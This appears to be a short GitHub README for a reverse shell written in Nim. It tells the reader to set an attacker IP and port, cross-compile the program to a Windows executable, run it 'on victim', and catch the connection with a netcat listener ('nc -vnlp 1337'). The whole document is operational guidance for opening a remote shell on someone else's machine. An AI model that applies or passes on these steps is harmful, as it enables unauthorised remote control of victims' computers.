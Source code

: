 # nim_reverse_shell

<br> ## A simple reverse shell with nim code.

<br> # How to build and run?

<br> ## Change this code snippet:
##var ip = "10.0.0.183"
##var port = 1337
<br> 

## Install Nim -> sudo apt install nim -y
<br> ## Build the reverse shell -> nim c --d:mingw --cpu=amd64 reverse.nim
<br> ## On victim: ./reverse.exe
<br> ## On Attacker: nc -vnlp 1337
